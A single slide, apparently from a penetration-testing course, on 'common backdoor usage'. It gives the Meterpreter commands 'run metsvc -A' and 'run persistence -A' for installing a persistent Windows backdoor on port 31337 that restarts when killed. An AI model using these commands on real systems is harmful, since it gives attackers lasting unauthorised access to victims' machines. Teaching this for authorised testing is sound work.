

# Common backdoor usage
Windows backdoors
Metsvc
In meterpreter, type run metsvc -A
Should install a persistent backdoor on port 31337
Persistence.rb
In meterpreter, type run persistence -A
Should install a persistent backdoor on port 31337
Both should run again when killed